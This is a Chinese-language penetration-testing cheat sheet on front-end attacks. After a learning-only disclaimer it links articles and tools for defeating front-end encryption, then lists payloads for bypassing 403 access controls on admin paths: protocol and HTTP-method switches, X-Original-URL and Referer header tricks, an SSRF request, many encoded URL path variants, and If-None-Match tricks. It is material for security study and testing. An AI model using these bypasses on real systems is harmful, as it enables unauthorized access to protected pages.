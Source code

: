 # 前端攻防

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

# 前端解密

**相关文章**
- [对登录中账号密码进行加密之后再传输的爆破的思路和方式](https://www.freebuf.com/articles/web/127888.html)
- [浅析前端加密后数据包的修改方法](https://www.freebuf.com/articles/web/223011.html)
- [浅谈web安全之前端加密](https://mp.weixin.qq.com/s/W1Jbrj6Jtg-J3-AX4eO-Eg)

**相关案例**
- [H5页面漏洞挖掘之路-加密篇](https://mp.weixin.qq.com/s/QRxMQFgAPlJsUwuw8Sv0JQ)

**相关工具**
- [Ebryx/AES-Killer](https://github.com/Ebryx/AES-Killer) - 可即时解密移动应用程序的 AES 加密流量的 Burp 插件

---

# 绕过访问

**相关文章**
- [Tips : Bypass Etag If-None-Match](https://anggigunawan17.medium.com/tips-bypass-etag-if-none-match-e1f0e650a521)

**相关工具**
- [iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403) - 一个用来绕过403报错的简单脚本

**Tips**
- protocol based bypass
    ```bash
    http://web.com/admin    # ===> 403
    https://web.com/admin   # ===> 200
    ```

- method based bypass
    ```bash
    OPTIONS
    GET
    HEAD
    POST
    PUT
    DELETE
    TRACE
    TRACK
    CONNECT
    PROPFIND
    PROPPATCH
    MKCOL
    COPY
    MOVE
    LOCK
    UNLOCK
    VERSION-CONTROL
    REPORT
    CHECKOUT
    CHECKIN
    UNCHECKOUT
    MKWORKSPACE
    UPDATE
    LABEL
    MERGE
    BASELINE-CONTROL
    MKACTIVITY
    ORDERPATCH
    ACL
    PATCH
    SEARCH
    ARBITRARY
    ```

- HTTP Header based bypass
    ```bash
    GET /admin HTTP/1.1
    Host: web.com   # ===> 403

    GET /anything HTTP/1.1
    Host: web.com
    X-Original-URL: /admin  # ===> 200

    GET /anything HTTP/1.1
    Host: web.com
    Referer: https://web.com/admin  # ===> 200

    GET https://qq.com HTTP/1.1
    Host: web.com   # ===> SSRF
    ```

- url character/parameter bypass
    ```bash
    /admin/panel            # ===> 403
    /admin/monitor          # ===> 200

    /admin/monitor/;panel   # ===> 302
    ```
    ```bash
    web.com/admin           # ===> 403

    web.com/ADMIN           # ===> 200
    web.com/admin/          # ===> 200
    web.com//admin/         # ===> 200
    web.com/admin;          # ===> 200
    web.com/admin/.         # ===> 200
    web.com/admin/../admin  # ===> 200
    web.com/admin../admin   # ===> 200
    web.com/../admin        # ===> 200
    web.com//admin//        # ===> 200
    web.com/./admin/./      # ===> 200
    web.com/./admin/..      # ===> 200
    web.com/;/admin         # ===> 200
    web.com/.;/admin        # ===> 200
    web.com//;//admin       # ===> 200
    web.com/admin.json      # ===> 200(ruby)

    web.com/%2f/admin/      # ===> 200
    web.com/%2e/admin       # ===> 200
    web.com/%252e/admin     # ===> 200
    web.com/%ef%bc%8fadmin  # ===> 200

    web.com/admin           # ===> 302
    web.com/test/admin      # ===> 200
    web.com/admin..;/       # ===> 200
    ```

- 304 bypass
    ```bash
    GET /admin HTTP/1.1
    Host: target.com
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    GET /admin HTTP/1.1
    Host: target.com
    ```

    ```
    If-None-Match: W/"123-dASdsa2d2212e4d21"

    If-None-Match: W/"null"
    If-None-Match: W/"123-dASdsa2d2212e4d21" a
    ```
